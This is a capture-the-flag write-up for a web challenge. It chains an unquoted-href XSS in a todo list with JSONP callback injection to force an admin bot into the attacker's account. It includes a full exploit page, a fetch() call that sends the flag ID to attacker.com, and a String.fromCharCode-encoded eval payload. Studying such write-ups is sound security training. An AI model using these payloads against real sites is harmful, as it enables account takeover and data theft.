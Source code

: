 # the cult of 8 bit

**Authors**: [sam.ninja](https://sam.ninja) and [pilvar](https://twitter.com/pilvar222)

**Tags**: web

> Valentina is trapped in the 8-bit cult, will you be able to find the secret and free her?

## XSS in a user's todo list
If the value of the todo list gets parsed as a valid URL, it will be rendered in the `href` attribute of an `<a>`. Because the value isn't wrapped in quotes, it is possible to inject HTML attributes to achieve XSS.
```js
let isURL = false;
try {
    new URL(text); // errors if not valid URL
    isURL = !text.toLowerCase().trim().startsWith("javascript:"); // no
} catch {}
```
```html
<%_ if (todo.isURL) { _%>
  <li class="has-text-left"><a target="_blank" href=<%= todo.text %>><%= todo.text %></a></li>
```
We achieved XSS using this URL: `https://org.anize.rs/%0astyle=animation-name:spinAround%0aonanimationstart=alert(1)//`

Unfortunately, the todo list is only visible to the user that created it, so we need to find a way to make the bot login as our user.

## Forcing the bot to login as another user
Now we want to make the XSS bot login as another user that contains the XSS payload.

The login page is protected by a CSRF token, so we can't just send POST a form to the login endpoint. We can however call a single function in the context of the challenge by injecting a different JSONP callback through the `id` query parameter.
```js
const id = new URLSearchParams(window.location.search).get('id');
// Load post from POST_SERVER
// Since POST_SERVER might be a different origin, this also supports loading data through JSONP
const request = new XMLHttpRequest();
try {
    request.open('GET', POST_SERVER + `/api/post/` + encodeURIComponent(id), false);
    request.send(null);
}
catch (err) { // POST_SERVER is on another origin, so let's use JSONP
    let script = document.createElement("script");
    script.src = `${POST_SERVER}/api/post/${id}?callback=load_post`;
    document.head.appendChild(script);
    return;
}
```

For example, `/post/?id=x%3Fcallback=alert%26x=%00` will call `alert(postContentObject)`. Note that we don't control the format of the argument, it will always be a JavaScript object, so a method expecting a string will convert it into `[object Object]`.

So now we want to keep an old page open to preserve the flag id, logout the admin bot, make it go to the login page, fill in the username and password and click on the login button.

Logging out is easy because there is a logout button on the post page, so we can access it by traversing the DOM `document.childNodes[x].childNodes[y].click()`.

For the other actions, we need to reference the login window from the post page. The only possible reference is `window.opener`, so from the exploit page will need to redirect to the login page after opening the child windows that will perform the actions.

Here is the full exploit to login as user `[object Object]` with password `[object Object]`:
```html
<script>
  function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
  }

  async function exploit() {
    const challURL = "http://localhost:12345"
    
    // load original page that contains the flag ID
    // we specify a name so we can later get a reference to it by calling window.open("", "flag")
    window.open(challURL + "/", "flag")
    await sleep(100)

    // logout
    window.open(challURL + "/post/?id=x%3Fcallback=document.childNodes[0].childNodes[2].childNodes[1].childNodes[1].childNodes[1].childNodes[3].childNodes[1].click%26x=%00")
    await sleep(1000)

    // set username to [object Object]
    window.open(challURL + "/post/?id=x%3Fcallback=window.opener.document.childNodes[0].childNodes[2].childNodes[3].childNodes[1].childNodes[1].childNodes[1].childNodes[3].childNodes[1].childNodes[3].childNodes[1].setRangeText%26x=%00")
    // set password to [object Object]
    window.open(challURL + "/post/?id=x%3Fcallback=window.opener.document.childNodes[0].childNodes[2].childNodes[3].childNodes[1].childNodes[1].childNodes[1].childNodes[3].childNodes[3].childNodes[3].childNodes[1].setRangeText%26x=%00")

    // click login
    window.open(challURL + "/post/?id=x%3Fcallback=window.opener.document.childNodes[0].childNodes[2].childNodes[3].childNodes[1].childNodes[1].childNodes[1].childNodes[3].childNodes[7].childNodes[1].childNodes[1].click%26x=%00")

    // redirect to login page so it can be accessed with window.opener
    location.href = challURL + "/login"
  }

  exploit();
</script>
```

## Getting the flag
Before logging out, we opened a page that contains the flag ID. So we can now get a reference to it by calling `window.open("", "flag")`. And because we are now in the same origin, we can access it's DOM, get the flag ID and exfiltrate it.
```js
fetch("https://attacker.com/"+window.open("", "flag").document.querySelector(".content a").innerText)
```

We cannot have quotes in the XSS payload, so we encode it in ASCII and then decode and evaluate it in JavaScript:
```
https://google.com/%0Astyle=animation-name:spinAround%0Aonanimationstart=eval(String.fromCharCode(102,101,116,99,104,40,34,104,116,116,112,115,58,47,47,97,116,116,97,99,107,101,114,46,99,111,109,47,34,43,119,105,110,100,111,119,46,111,112,101,110,40,34,34,44,32,34,102,108,97,103,34,41,46,100,111,99,117,109,101,110,116,46,113,117,101,114,121,83,101,108,101,99,116,111,114,40,34,46,99,111,110,116,101,110,116,32,97,34,41,46,105,110,110,101,114,84,101,120,116,41))//
```

Finally we add this to the todo list of `[object Object]` and make the bot visit our exploit page.

`rwctf{val3ntina_e5c4ped_th3_cu1t_with_l33t_op3ner}`
